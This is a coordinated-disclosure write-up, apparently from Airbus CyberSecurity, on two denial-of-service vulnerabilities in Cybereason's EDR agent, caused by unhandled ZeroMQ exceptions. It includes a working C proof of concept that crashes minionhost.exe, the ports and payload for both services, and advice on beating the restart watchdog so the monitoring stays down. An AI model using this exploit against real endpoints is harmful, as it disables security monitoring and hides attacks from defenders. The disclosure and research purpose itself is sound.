

Why not catching exception hurts security products?
===================================================
*A case study with Cybereason EDR (CVE-2020-26562 & CVE-2020-26871)*
---------------------------------------------------------------------------------------------

*by Nicolas Delhaye, Vulnerability Researcher [@_Homeostasie_](https://x.com/_homeostasie_)*

# Context
One of the Cybereason Products **[1]** is designed to protect end-user workstations from complex cyber-attacks. It acts as an Endpoint Detection & Response (EDR) which provides visibility to critical information such as: process actions, file access information, network events, configuration changes on the endpoints, and so on. The version tested of this EDR is designed to be non-invasive, and so is only based in the user-space of the operating system. However, a configuration using an additional kernel component is also available to bring in more self-defence mechanisms.

As part of this analysis, we will study two vulnerabilities which allow a non-privileged user to cause a Denial of Service on two sensitive executables:
- ***minionhost.exe*** that is part of the ***Active Probe Service***: This service runs with ***Authority NT/System*** rights and is responsible for collecting and delivering logs from and to other Cybereason executables. 
- ***ExecutionPreventionSvc.exe***: This service also runs with ***Authority NT/System*** rights and is intended to prevent the execution of malicious executables

A disruption of both ***minionhost.exe*** and ***ExecutionPreventionSvc.exe*** involves remote monitoring, that is a station which centralises all events that occur inside an enterprise network, is not aware of the current threats on the endpoint station. Without these logs, an operator could not perform actions to solve ongoing issues.

Throughout this vulnerability research, the in-depth analysis does not focus on the software architecture, binaries/services roles and functionalities offered. Therefore, some considerations will certainly be approximate. Our main goal is to identify weaknesses from an attacker point of view to contribute in securing this relevant product and as a result, the end customers.

Finally, we would like to thank *Cybereason* for our mutual exchanges and their willingness to fix these vulnerabilities in the best possible manner.

# Vulnerability Analysis
## Brief description
This analysis is based on an older version of a *Cybereason* product but all recent versions are also affected. More precisely, this study has been achieved on the 19.1.20.0 version:

Please see Figure below, a screenshot that provides a version of the *Cybereason* product:



The first vulnerability is located in the ***minionhost.exe*** whereas the second is located in a DLL named ***SAScanner.dll*** which is loaded by the ***ExecutionPreventionSvc.exe*** service.

We will see why both the ***minionhost.exe*** and the ***ExecutionPreventionSvc.exe*** are sensitive processes. We already know they run with *NT AUTHORIY\*SYSTEM* rights. However, being aware of their rules allows us to understand what is impacted if these processes are unavailable.

Before going further, this product relies mainly on the use of an open source library for inter-process communication. That is named *ZeroMQ* (ØMQ) **[2]**.

This library extends the standard socket interfaces with features traditionally provided by specialised messaging products. In particular, *ZeroMQ* sockets provide an abstraction of:
- Asynchronous message queues;
- Multiple messaging patterns; 
- Message filtering through subscriptions;
- Seamless access to multiple transport protocols;
- And more.

The way these sockets work depends on the type of socket chosen. In addition, the flow of mes-sages being sent depends on the chosen patterns, of which there are four: 
- **Request/Reply Pattern**: Used for sending a request and receiving subsequent replies for each one sent;
- **Publish/Subscribe Pattern**: Used for distributing data from a single process (e.g. publish-er) to multiple recipients (e.g. subscribers);
- **Pipeline Pattern**: Used for distributing data to connected nodes;
- **Exclusive Pair Pattern**: Used for connecting two peers together, forming a pair.

## CVE-2020-26562 targeting *minionhost.exe*

First, ***minionhost.exe*** is launched by the *ActiveConsole.exe* process, which is itself started by the *PylumLoader.exe* service. The latter is the Active Probe parent process. The ***minionhost.exe*** seems responsible to collect and deliver messages such as logs from and to other *Cybereason* executables. In fact, it acts as a publish-subscribe proxy by using the *ZeroMQ* Publish/Subscribe pattern. This one allows you to have multiple *ZeroMQ* consumers connecting to multiple *ZeroMQ* producers.

Please see Figure below, a scheme which illustrates the publish-subscribe proxy:


At this point, crashing the ***minionhost.exe*** process means that the endpoint station will not be able to:
- collect log messages from publishers;
- deliver log messages to subscribers.

One of the *Cybereason*’ processes acts as a consumer process and is responsible of delivering logs to the monitoring station over the network. If it can no longer receive input messages, it will not throw events of current threats occurring on the endpoint station. Therefore, an operator could not remotely perform actions to solve suspicious or malicious behaviour. As you can understand, this makes the ***minionhost.exe*** binary a good candidate to turn off.

In order to act as a Publish/Subscribe proxy, the minionhost.exe listens on three TCP ports:
- 10556: The *ZeroMQ* backend port for subscribers (consumers);
- 10557: The *ZeroMQ* control flow port;
- 10558: The *zeroMQ* frontend port for publishers (producers).

The *zmq_proxy_steerable()* **[3]** function allows you to start the built-in ØMQ proxy in the current application thread. Its prototype is defined as follows:

```c
int zmq_proxy_steerable (void *frontend_, void *backend_, void *capture_, void *control_)
```

If the third argument, named control, is not NULL, the proxy supports control flow. That is how it is implemented in the ***minionhost.exe*** code.

Later, in the ***Proof of Concept*** chapter, we will discuss a way of leading to a crash of ***minionhost.exe*** due to an improper exception handling over the ***control flow socket***.

### Vulnerability Location
The vulnerability occurs by sending a *ZeroMQ* data message of 256 bytes to the ***control flow socket*** (10557). This message is filled with a 0x41 hexadecimal value and will be then managed by the ***libzmq.dll*** module. One field of the data message is seen as a control flow command such as:
- PAUSE, which suspends the proxy activities;
- RESUME, which resumes the proxy activities;
- TERMINATE, which smoothly terminates the proxy activities.

In this context, the "A" (0x41) string is an unknown control flow command and could not be handled. So, an exception is thrown, but unfortunately not caught by the upper layer, that is part of the ***minionhost.exe*** code. This programming mistake leads to a crash of ***minionhost.exe***.

Please see Figure below, a screenshot of disassembling code which raises this exception:


As *ZeroMQ* is an open source library, we can retrieve the above code in C language.

Please see Figure below, an extract of *zmq::proxy* **[4]** function which holds on the code involved:


From the disassembly code in Figure 4 and the C code source in Figure 5, we retrieve the string *“E: invalid command sent to proxy”*. In fact, an exception is thrown from the *zmq_assert()* function. Therefore, a call of the *zmq::proxy* function should be enclosed with a *“try…catch”* code.

Please see Figure below, the call stack which provides more details on the execution flow:

```
0:004> k
 # Child-SP          RetAddr           Call Site
00 000000df`6bdfec50 00007ffd`e3000111 KERNELBASE!RaiseException+0x69
01 000000df`6bdfed30 00007ffd`e30109f8 libzmq+0x10111
02 000000df`6bdfed60 00007ff7`e0b07c80 libzmq!zmq_atomic_counter_inc+0xba48
03 000000df`6bdfef00 00007ff7`e0a56637 minionhost+0xe7c80
04 000000df`6bdffb30 00007ff7`e0a568c9 minionhost+0x36637
05 000000df`6bdffb70 00007ffd`f5111ffa minionhost+0x368c9
06 000000df`6bdffba0 00007ffd`f6a881f4 ucrtbase!o_exp+0x5a
07 000000df`6bdffbd0 00007ffd`f802a251 KERNEL32!BaseThreadInitThunk+0x14
08 000000df`6bdffc00 00000000`00000000 ntdll!RtlUserThreadStart+0x21
```

## CVE-2020-26871 targeting *ExecutionPreventionSvc.exe*
This vulnerability is located into a DLL named SAScanner.dll which is loaded by the ***ExecutionPreventionSvc.exe*** service. 

A brief description of these two components is the following:
- The ***ExecutionPreventionSvc.exe*** is a service running with *NT AUTHORIY\SYSTEM* rights. As its name suggests, its main goal is to prevent execution of doubtful binaries. For some type of suspicious detections, logs will be sent to an external server. An alarm is triggered to warn an operator to perform the suitable action;

- The ***SAScanner.dll*** seems to be a module which is responsible for scanning binaries as soon as it is executed in the host machine.

With this knowledge, stopping the ***ExecutionPreventionSvc.exe*** process makes the endpoint station not protected against cyber-threats. Malicious or suspicious executables will no longer be detected and no more logs are thrown to a monitoring or supervision station. That is why this binary is also a good candidate to turn off.

Moreover, the ***ExecutionPreventionSvc.exe*** offers a file scanning service to other *Cybereason* binaries. In this context, the ***ExecutionPreventionSvc.exe*** holds on a communication channel based on TCP sockets. Such a service is delivered through the ***TCP port 40270*** which obviously relies on the *ZeroMQ* library (ØMQ). 

Based on this, the easiest way to communicate with the ***ExecutionPreventionSvc.exe*** service is to deal with this library to establish a TCP communication from our executable. Then, we can attempt to send malformed packets to get unexpected behaviours. 

Later, in the ***Proof of Concept*** chapter, we will discuss a way leading to a crash of ***ExecutionPreventionSvc.exe*** due to an improper exception handling.

### Bug Location
The vulnerability occurs by sending a *ZeroMQ* data message of 256 bytes to the *TCP port 40270*. This message is filled with a 0x41 hexadecimal value and will then be managed by the ***SAScanner.dll*** module. One field of the data message is seen as a “command” type. Here the “0x41” value is an unknown command and could not be handled. So, an exception is thrown, but unfortunately not caught by the upper layer. This programming mistake results in a crash of ***ExecutionPreventionSvc.exe***, that is a Denial of Service.

Please see Figure below, a screenshot of disassembling code which raises this exception:


From the above Figure, you can see the *_CxxThrowException()* which raises an exception as soon as a command is unknown. Even if this call seems coming from the ***SAScanner.dll***, one assumption is we are faced with an inline function being part of the *ZeroMQ* library. This is why the crash of ***ExecutionPreventionSvc.exe*** occurs just after this call.

Please see Figure below, the call stack which provides more details on the execution flow:

```
0:003> k
 # Child-SP          RetAddr           Call Site
00 000000da`59aff6a0 00007fff`2b0d485d KERNELBASE!RaiseException+0x69
01 000000da`59aff780 00007fff`245900f0 VCRUNTIME140!CxxThrowException+0xad
02 000000da`59aff7f0 00007fff`2458ef49 SAScanner!destroy_scanner+0x1b600
03 000000da`59aff900 00007fff`2458fdc1 SAScanner!destroy_scanner+0x1a459
04 000000da`59affc60 00007fff`2457f949 SAScanner!destroy_scanner+0x1b2d1
05 000000da`59affca0 00007fff`31e11ffa SAScanner!destroy_scanner+0xae59
06 000000da`59affcd0 00007fff`33b081f4 ucrtbase!o_exp+0x5a
07 000000da`59affd00 00007fff`3588a251 KERNEL32!BaseThreadInitThunk+0x14
08 000000da`59affd30 00000000`00000000 ntdll!RtlUserThreadStart+0x21
```

# Proof of Concept
First of all, developing a proof of concept for these two vulnerabilities is quite similar. Only the TCP port differs from 10557 for *CVE-2020-26562* to 40270 for *CVE-2020-26871*. In that sense, we will only supply the one targeting ***minionhost.exe***.

This proof of concept is compiled as a Windows executable which relies on the *ZeroMQ* library to exchange data on the TCP port 10557. The following function calls are needed:
- pfn_zmq_ctx_new;
- pfn_zmq_socket;
- pfn_zmq_msg_init;
- pfn_zmq_msg_init_size;
- pfn_zmq_msg_send;
- pfn_zmq_msg_close;

These functions will be loaded dynamically through a *LoadLibrary()* call and several *GetProcAddress()* calls.

Note that as soon as these services are not responding for a short time, they are started again. A watchdog mechanism is set up. However, some experimentations unveil that the service will be launched up to 5 times. So, you just need to execute several times this PoC to definitively kill both the ***minionhost.exe*** and the ***ExecutionPreventionSvc.exe***.
	
Please see Figure below, the main function in C language which triggers the vulnerability in ***minionhost.exe***:

```c
int Crash_Cybereason_minionhost()
{
	void *ctx = NULL;
	void *socket = NULL;
	zmq_msg_t tZmqMsg;
	int rc = 0;

	ctx = pfn_zmq_ctx_new();
	if (ctx == NULL)
	{
		DisplayError((LPTSTR)L"pfn_zmq_ctx_new");
		goto end_clean_up;
	}

	socket = pfn_zmq_socket(ctx, ZMQ_REQ);
	if (socket == NULL)
	{
		DisplayError((LPTSTR)L"zmq_socket");
		goto end_clean_up;
	}

	printf("[*] Connecting to tcp://127.0.0.1:10557\n");
	rc = pfn_zmq_connect(socket, "tcp://127.0.0.1:10557");
	if (rc != 0)
	{
		DisplayError((LPTSTR)L"pfn_zmq_connect");
		goto end_clean_up;
	}

	pfn_zmq_msg_init(&tZmqMsg);

	printf("[*] Sending data\n");
	rc = pfn_zmq_msg_init_size(&tZmqMsg, DATA_SIZE);
	memset(pfn_zmq_msg_data(&tZmqMsg), 'A', DATA_SIZE);
	rc = pfn_zmq_msg_send(&tZmqMsg, socket, 0);
	if (rc < 0)
	{
		DisplayError((LPTSTR)L"pfn_zmq_msg_send");
		goto end_clean_up;
	}
	pfn_zmq_msg_close(&tZmqMsg);

	Sleep(1000);
	printf("[*] minionhost.exe has crashed!!!\n");
	rc = 0;

end_clean_up:
	if (socket)
		pfn_zmq_close(socket);

	return rc;
}
```

# Demonstration for CVE-2020-26562
This PoC targets the vulnerability on the following environment:
•	***Cybereason*** with ***19.1.20.0*** version which is deployed on ***Windows 10 Pro 1809***

Please see Figure below, a screenshot which highlights the ***minionhost.exe*** PID before launching the PoC.


The PID is currently 5500. After executing our PoC, the service will be crashed. As it would be started again up to 5 times, the PID will not be the same.

Please see Figure 10 below, a screenshot when executing the PoC:


Please see Figure below, a screenshot which illustrates that the service is restarted:


The PID is now 5992 but the PID of the parent process is unchanged.

# Conclusion
These two vulnerabilities *CVE-2020-26562* and *CVE-2020-26871* target respectively two critical components of the *Cybereason* Product, that is the minionhost executable as part of ***ActiveProbe Service*** and the ***Execution Prevention Service***. If one of these services is unavailable, the endpoint station can no longer send event logs to the monitoring station. Consequently, an operator will not be aware of current threats occurring on the endpoint and no actions could be remotely performed to solve suspicious or malicious behaviours.

One plain recommendation to avoid such Denial of Services will be to always catch exceptions thrown from the *ZeroMQ* library.

# Disclosure Timeline
Airbus CyberSecurity follows the widely accepted 90-day vulnerability disclosure policy; meaning Airbus CyberSecurity won’t engage any public communication about the reported vulnerability during that time frame without any prior public communication or fix. Please note that Airbus CyberSecurity’s general position is that as soon a working and active relationship is established, there is no need to blindly push for the 90-day vulnerability disclosure if it’s not necessary.

Cybereason reacted quickly both to confirm both vulnerabilities and fixed these issues in order to protect as much as possible the end customer.

April 01, 2020: Vulnerabilities are reported to Cybereason

April 22th, 2020: Cybereason expects to fix these issues by end of June

June 30th, 2020: Vulnerabilities are fixed

October 06th, 2020:	CVE-2020-26562 and CVE-2020-26871 are created

October 22th, 2020: Airbus publishes the report associated with the CVE-2020-26562 and CVE-2020-26871

# References
**[1]** CyberReason – Endpoint Detection & Response  
https://www.cybereason.com/platform/endpoint-detection-response-edr

**[2]** ZeroMQ - An open-source universal messaging library  
https://zeromq.org/

**[3]** ZeroMQ API - zmq_proxy_steerable  
http://api.zeromq.org/4-1:zmq-proxy-steerable

**[4]** ZeroMQ API - zmq_proxy  
http://api.zeromq.org/3-2:zmq-proxy

